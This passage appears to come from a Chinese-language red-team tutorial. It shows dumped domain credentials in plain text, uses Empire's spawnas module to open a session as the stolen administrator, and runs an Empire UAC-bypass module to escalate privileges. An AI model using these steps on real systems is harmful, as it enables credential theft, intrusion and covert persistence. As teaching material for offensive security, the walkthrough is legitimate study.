 ```text
    * Username : adm_supreme
    *    Domain    : SPH.CORP
    * Password : Charvel097*
    ssp : 
    credman :
    […]
```

不错！看来计划任务确实以 adm\_supreme 用户权限执行了： ![xxx&#x793A;&#x610F;&#x56FE;](.gitbook/assets/4.4-2.jpg)

使用新获得的凭据在工作站上创建一个新的管理会话。

```text
(Empire:) > usemodule management/spawnas
(Empire:    management/spawnas)    >    set    UserName adm_supreme
(Empire: management/spawnas) > set Domain SPH 
(Empire:    management/spawnas)    >    set    Password Charvel097*
(Empire: management/spawnas) > set Agent john (Empire: management/spawnas) > run
Launcher bat written to C:\Users\Public\debug.bat


Handles NPM(K)    PM(K)    WWS(K) VM(M)    CPU(s)
Id SI ProcessName
------- ------    -----    ----- -----    ------    --    --  --
6 4    1380 236 ...63    0.00    5404 2 cmd
```

![xxx&#x793A;&#x610F;&#x56FE;](.gitbook/assets/4.4-3.jpg)

新的 adm\_supreme 会话在工作站上依然权限受限（UAC 还是会弹出）。如果想执行提权操作，例如设置更隐蔽的持久化方法，监视 John 等，还需要有更高的权限来绕过UAC：

```text
(Empire: admSupreme) > usemodule privesc/bypassuac_eventvwr
(Empire: privesc/bypassuac_eventvwr) > set Listener test
(Empire: privesc/bypassuac_eventvwr) > run
Job started: Debug32_23tc3
```

![xxx&#x793A;&#x610F;&#x56FE;](.gitbook/assets/4.4-4.jpg)
